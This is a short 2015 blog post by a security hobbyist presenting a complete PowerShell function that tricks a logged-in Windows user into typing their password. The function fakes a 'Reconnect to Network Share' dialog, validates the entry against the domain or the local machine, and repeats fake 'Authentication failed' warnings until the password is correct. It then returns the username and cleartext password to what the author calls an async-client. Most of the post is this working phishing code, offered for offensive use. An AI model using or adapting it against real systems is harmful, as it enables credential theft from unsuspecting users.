



|| asking for passwords with powershell, author: xor-function || 12/27/2015 || Back to main
I modified the idea originally from Mubix of using a system dialog to trick
someone into inputting their password from sending the captured creds to
authenticate to instead return them in clear text back from a function.
Here is the new function with the modified code. I already have integrated
it to the async-client.
Now I added some additional code to perform credential validation.
===[ BOF ]===
# Enhanced version of askfor-creds that performs credential validation to insure you get valid credentails.
# Will be added to the async-client and tcp-client.
#
# xor-function
#[->] thx Mubix for the idea ;)
function askfor-creds {
[int]$cnt = 1
while ( $cnt -lt '4' ) {
$user = [Environment]::UserName
$domain = [Environment]::UserDomainName
$credentials = $Host.UI.PromptForCredential('Reconnect to Network Share','',$user,[Environment]::UserDomainName)
$pass = $credentials.getnetworkcredential().password
if ((gwmi win32_computersystem).partofdomain -eq $true ) {
Add-Type -assemblyname system.DirectoryServices.AccountManagement
$cntxtdom = New-Object System.DirectoryServices.AccountManagement.PrincipalContext([System.DirectoryServices.AccountManagement.ContextType]::Domain, $domain)
$chkdom = $cntxtdom.ValidateCredentials($user,$pass)
if ( $chkdom -eq $false ) {
Add-Type -AssemblyName System.Windows.Forms
$choice = [System.Windows.Forms.MessageBox]::Show("Authentication failed! Please enter correct password", "Reconnection Attempt Failed!", [System.Windows.Forms.MessageBoxButtons]::OK, [System.Windows.Forms.MessageBoxIcon]::Warning)
} else { break }
} else {
Add-Type -assemblyname system.DirectoryServices.AccountManagement
$localMachine = New-Object System.DirectoryServices.AccountManagement.PrincipalContext([System.DirectoryServices.AccountManagement.ContextType]::Machine)
$credtest = $localMachine.ValidateCredentials($user,$pass)
if ( $credtest -eq $false ) {
Add-Type -assemblyname System.Windows.Forms
$choice = [System.Windows.Forms.MessageBox]::Show("Authentication failed! Please enter correct password", "Reconnection Attempt Failed!", [System.Windows.Forms.MessageBoxButtons]::OK, [System.Windows.Forms.MessageBoxIcon]::Warning)
} else { break }
}
$cnt++
}
if ( $cnt -eq '4' ) {
$summary = "[!] Attempt failed! Exceeded login attempts."
} else {
$summary = "[!] Successfully authenticated with domain! `n"
$summary += '[>] Domain\UserName: ' + $domain + '\' + $user + ' | ' + 'Pass: ' + $pass
}
return $summary
}
===[ EOF ]===
The above function executed from the async-client


